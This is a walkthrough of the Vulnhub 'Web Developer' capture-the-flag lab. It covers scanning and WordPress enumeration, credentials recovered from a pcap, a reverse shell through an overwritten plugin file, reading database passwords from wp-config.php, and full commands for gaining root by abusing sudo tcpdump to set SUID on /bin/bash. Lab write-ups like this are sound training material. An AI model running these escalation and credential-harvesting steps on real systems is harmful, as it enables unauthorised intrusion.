


# Information

- Name: Web Developer
- Date release: 5 Nov 2018
- Author: Fred Wemeijer
- Series: Web Developer
- Platform: Vulnhub
- Link: https://www.vulnhub.com/entry/web-developer-1,288/
- Difficulty: Easy

# Write Up
## Enumeration

### Host Discovery
Host Dicovery is performed using [arpScan](https://github.com/aalmeidar/Tools). In this lab, machine ip is _10.0.2.31_
```Shell
# arpScan.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:bb:84:dd 10.0.2.3
[*] 08:00:27:cc:54:c9 10.0.2.31
```
### Port Scanning
Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools). Tool reported 2 open ports.
```Shell
# portScanner.py -i 10.0.2.31
[..\.....] Scanning Ports: 65535
[*] Port 22 (ssh) open
[*] Port 80 (http) open

```
OpenSSH is running on port 22 and Web is running on port 80.

### Web

Let's see used technologies on the web with _whatweb_:
```Console
# whatweb http://10.0.2.31
http://10.0.2.31 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.0.2.31], JQuery[1.12.4], MetaGenerator[WordPress 4.9.8], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[Example site &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[4.9.8]
```
Its a Wordpress 4.9.8, so let's scan it with [wordpressScanner](http://) to search themes, plugins and verify version.

```Console
sudo python WordPressScanner.py -u http://10.0.2.31 -p -t


#######################
#  Wordpress Scanner  #
#######################


############################################
#  Fuzzing with Wordlists/url_fuzzing.txt  #
############################################

[O] Fuzzing: http://10.0.2.31/wp-admin/css/wp-admin-rtl.min.css
[*] license.txt 200
[*] readme.html 200
[*] wp-includes/images/smilies/icon_smile.gif 200
...
...
...
...
[*] wp-trackback.php 200
[*] xmlrpc.php 405


#############
#  Version  #
#############

[*] Meta Name: ['WordPress 4.9.8']
[*] ?ver=: ['4.9.8', '1.0', '3.7.3', '1.12.4', '1.4.1', '1.0', '1.0', '2.1.2', '4.9.8']


################################################
#  Fuzzing with Wordlists/wp-plugins.fuzz.txt  #
################################################

[+] Fuzzing: Fuzzing finished
[*] wp-content/plugins/akismet/ 200
[*] wp-content/plugins/hello.php 500
[*] wp-content/plugins/hello.php/ 500


###############################################
#  Fuzzing with Wordlists/wp-themes.fuzz.txt  #
###############################################

[+] Fuzzing: Fuzzing finished
```

Now let's apply fuzzing with other wordlist to search more hidden directories.

```Console
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.0.2.31/ -t 100                    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.31/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/11 13:02:53 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.hta                 (Status: 403) [Size: 274]
/ipdata               (Status: 301) [Size: 307] [--> http://10.0.2.31/ipdata/]
/server-status        (Status: 403) [Size: 274]                               
/index.php            (Status: 301) [Size: 0] [--> http://10.0.2.31/]         
/wp-includes          (Status: 301) [Size: 312] [--> http://10.0.2.31/wp-includes/]
/wp-content           (Status: 301) [Size: 311] [--> http://10.0.2.31/wp-content/] 
/wp-admin             (Status: 301) [Size: 309] [--> http://10.0.2.31/wp-admin/]   
/xmlrpc.php           (Status: 405) [Size: 42]                                     
                                                                                   
===============================================================
2022/09/11 13:02:55 Finished
===============================================================

```

_Ipdata_ looks weird. A pcap file is in the directory.



### Wireshark

Let's analyze with wireshark:


There is a credential in _tcp.stream eq 8_. The password is url encoded. Now we can access to wp-admin with webdeveloper:Te5eQg&4sBS!Yr$)wf%(DcAd


## Exploitation
Now, let's overwrite, for example, the hello.php to get a reverse shell.


To get the shell, access _/wp-content/plugins/hello.php_.

## Privilege Escalation
In _/var/www/html/wp-config.php_ we have credentials for webdeveloper user (mysql).
```Console
www-data@webdeveloper:/$ cat /var/www/html/wp-config.php 
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'webdeveloper');

/** MySQL database password */
define('DB_PASSWORD', 'MasterOfTheUniverse');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8mb4');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

```
Let's access with webdeveloper:MasterOfTheUniverse and see what can he execute as root.
```Console
www-data@webdeveloper:/$ su webdeveloper
Password: 
webdeveloper@webdeveloper:/$ sudo -l
[sudo] password for webdeveloper: 
Matching Defaults entries for webdeveloper on webdeveloper:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump
```

We can escalate privileges with _tcpdump_, let's assign suid perm to bas:

```Console
webdeveloper@webdeveloper:/$ COMMAND='chmod 4755 /bin/bash'
webdeveloper@webdeveloper:/$ TF=$(mktemp)
webdeveloper@webdeveloper:/$ echo "$COMMAND" > $TF
webdeveloper@webdeveloper:/$ chmod +x $TF
webdeveloper@webdeveloper:/$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z $TF -Z root
dropped privs to root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
5 packets received by filter
0 packets dropped by kernel
webdeveloper@webdeveloper:/$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr 18 15:08 /bin/bash
webdeveloper@webdeveloper:/$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# id
uid=1000(webdeveloper) gid=1000(webdeveloper) euid=0(root) groups=1000(webdeveloper),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)
bash-4.4# cat /root/flag.txt 
Congratulations here is youre flag:
cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290

```


